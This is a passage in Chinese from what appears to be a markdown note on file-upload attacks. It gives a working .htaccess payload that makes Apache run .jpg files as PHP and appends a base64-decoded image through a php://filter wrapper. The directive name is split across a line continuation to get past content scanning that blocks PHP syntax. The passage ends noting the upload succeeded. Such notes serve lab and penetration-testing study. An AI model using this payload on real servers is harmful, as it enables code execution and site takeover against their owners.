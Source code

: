![image-20231024162516428](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231024162516428.png)



## .htaccess 文件 base64绕过

服务端对上传的文件进行字符串扫描，禁止了php语法，即使上传图马也会进行字符串扫描，



首先上传.htaccess文件，文件内容为所有以.jpg结尾的文件进行php解析，将1.jpg文件经过base64解码后在进行php解析

```
AddType application/x-httpd-php .jpg
php_value auto_append_fi\
le "php://filter/convert.base64-decode/resource=1.jpg"
```



将.htaccess文件上传，上传成功

![image-20231104144608421](images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20231104144608421.png)
